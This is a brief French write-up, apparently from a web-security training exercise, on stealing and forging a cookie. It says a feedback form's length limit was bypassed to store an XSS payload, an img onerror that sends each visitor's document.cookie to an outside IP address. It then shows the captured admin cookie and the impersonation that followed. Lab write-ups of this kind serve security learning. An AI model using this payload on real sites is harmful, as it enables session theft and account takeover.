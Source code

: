 Security breach name 	: Cookie

Principle 				: Modifier la valeur d'un cookie pour tromper le serveur

Solve 					: 

In case 				: Sur la page feedback, un seul des deux inputs stringify la valeur entré par le user, le second ne fait que limiter la taille de son input,
							il nous a donc suffit de changer ca taille maximum pour ensuite y insérer du code nous permettant d'envoyer le cookie de session de chaques users se rendant sur la page de feedback.
						Il faut utiliser un autre browser que Google Chrome car celui-ci bloque ce genre de contenu.

							code 	: <img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>
							result 	: http://46.101.40.236:3000/get_cookie_xss.php?cookie=I_am_admin=68934a3e9455fa72420237eb05902327


							Il nous restait plus qu'à changer le cookie I_am_admin pour se faire passer pour celui-ci.


							Ou tout simplement par la console developpeur.